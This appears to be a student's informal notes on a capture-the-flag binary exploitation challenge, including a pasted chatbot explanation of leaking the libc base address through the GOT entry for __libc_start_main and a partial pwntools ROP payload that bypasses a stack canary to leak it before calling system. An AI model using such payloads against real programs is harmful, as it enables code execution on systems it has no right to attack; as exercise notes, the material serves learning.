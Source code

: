 the above is something in the GOT 
use the above to leak libc base address in the second loop, the above is located in the return address 

in the second loop, old rbp 'cccccccc' would be pushed and become was new rbp 

then after the second loop's second day, we calculate the libc address 
then on the second loop's last day, we use the leaked address to call libc system directly 


# From chatgpt about 
3fe0 is the address in the GOT (Global Offset Table) where the address of `__libc_start_main` is stored. 

we can first test by output `__libc_start_main`'s libc offset and subtracting with the leak we see below in pwndbg to see if it works! 

Let's break down that instruction:
```
call QWORD PTR [rip+0x2eb2]
```
- Current RIP is at 1128
- 1128 + 0x2eb2 + 6 = 3fe0 (The +6 accounts for instruction length)
- 3fe0 is where the GOT entry for `__libc_start_main` is located

So if you want to leak `__libc_start_main`'s actual address from libc, you would:
1. Add 0x3fe0 to the base_addr to get the GOT entry address
2. Read from that address to get the actual libc function address

Like this:
```python
libc_start_main_got = base_addr + 0x3fe0
# Use this in your payload to leak it:
payload = flat(
    b'B' * 24,        # padding to canary
    p64(canary),      # canary
    p64(rbp),         # saved rbp
    p64(pop_rdi),     
    p64(libc_start_main_got),  # GOT entry address
    p64(puts_plt + base_addr)
)
```

Would you like me to show a complete version using `__libc_start_main` for the leak instead of `puts`?


1. 